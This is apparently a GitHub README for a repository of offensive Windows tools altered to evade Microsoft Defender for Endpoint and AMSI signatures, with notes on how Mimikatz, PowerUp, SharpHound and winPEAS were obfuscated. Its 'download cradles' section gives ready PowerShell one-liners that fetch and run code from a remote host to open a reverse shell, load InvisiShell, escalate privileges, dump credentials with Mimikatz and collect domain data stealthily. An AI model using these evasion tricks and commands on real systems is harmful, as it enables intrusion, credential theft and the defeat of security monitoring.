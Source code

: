 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## bypasses

These are all just for MDE. Anything serious and you're on your own

- `Invoke-Mimimkatz` **[NOT WORKING YET]**
    - The source VS solution had to be edited manually as the reflective assembly blob is signatured pretty hard. After compiling you can use that update script online (google it) and update the blob.
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

## to-be-added

- `SessionHunter`
- `PowerView`
- `Rubeus`

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will instantly get caught

- Reverse Shell
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- Load `InvisiShell`
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- Privilege Escalation
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- Dump Creds
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- Domain Abuse

**SHARPHOUND TOUCHES DISK OBVIOUSLY**

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```
